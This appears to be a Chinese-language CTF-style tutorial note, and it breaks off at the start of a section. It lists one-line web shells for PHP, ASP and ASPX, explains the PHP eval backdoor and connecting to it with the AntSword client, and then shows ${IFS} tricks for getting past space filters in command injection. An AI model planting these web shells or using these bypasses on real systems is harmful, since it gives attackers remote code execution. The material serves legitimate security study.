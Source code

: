 ```PHP
php的一句话木马： <?php @eval($_POST['cmd']);?>
asp的一句话是：   <%eval request ("cmd")%>
aspx的一句话是：  <%@ Page Language="Jscript"%> <%eval(Request.Item["cmd"],"unsafe");%>
```

对于PHP中的**解释**：

- `$_POST['cmd']`：从 HTTP POST 请求中获取参数值。
- `eval()`：将获取的参数作为代码执行。
- `@`：隐藏错误信息，增加隐蔽性

然后利用中国蚁剑这种连接shell的平台连接

https://github.com/AntSwordProject/   (具体安装自行搜索了）

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=NmYxMGYyZDUzNmNhNzE4NzM0MGM3MDE4Y2Q2ODEwMThfcXZ3ZWJZTDNTY0xBQnd3OFBnY2pFdzZiT0wxTDVoUnVfVG9rZW46Q2Y2cmJkRHVTb0FjZGV4ZkJ3eWNmcGFhbk1kXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

连接配置

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=MzEwZTk1M2ZiNDQ0Nzg0MmUyMmRiZjZlOTQzZmYzYzRfb3RnbFpEZGVpWWVPM1QzeGc0TnJkelVSaG9IcVE5MWFfVG9rZW46WnB5cGI5eEN1b0NaTHB4c21nSmNRZlFzbnpoXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

网站目录结构

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=ZmIzMWY4ODFmNTc3ZGEyN2I1MGExOWUxOWI0ZjdhYjhfNlV4NExJQlhBakJROUF5QkJaeGtzRkNKUDFMVlpUNFJfVG9rZW46WFZOemJJdWN0b2l1Ykl4WnVhMWMxNWU4blViXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

虚拟shell终端

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=YzNiMjY4ZTJiZmNmMTEyOGJiYTBhNDcxZDQ0YWNjOGFfUUxocjgyeTloNEYxRDFkdnE1d1ltcG9IVTB0TXZCZ1lfVG9rZW46UVZkQWJhTXl5bzg5R094NkwySGNMMmRQbklpXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

## Bypass

#### 空格Bypass

在过滤了空格的系统中，以cat flag.txt为例，系统不允许我们输入空格或输入后被过滤。

- **`${IFS}`**
- ` $IFS$9 `(可以是别的)

> - **`$IFS`**: `$IFS` 是 "Internal Field Separator"（内部字段分隔符）的缩写。它是一个环境变量，用于定义 shell 在解释命令行参数或输入时如何分割字段（单词）。默认情况下，`$IFS` 包含空格、制表符和换行符。简单来说，它告诉 shell 如何区分不同的参数。
> - **`$9`**: `$9` 代表 shell 脚本的第九个命令行参数。如果在执行脚本时提供了九个或更多个参数，`$9` 就会包含第九个参数的值。如果没有提供第九个参数，`$9` 的值为空字符串。
>
> 现在我们来看` $IFS$9 `。它的作用是将 `$IFS` 和 `$9` 连接在一起。由于 `$9` 通常为空字符串，所以 $$IF$$`9` 实际上就等同于 `$IFS`。这个技巧的关键在于如何使用它来绕过空格过滤

可使用${IFS}代替空格。

```PHP
cat${IFS}flag.txt
cat$IFS$1flag.txt
cat${IFS}$1flag.txt
```

- **重定向符绕过(<>)**
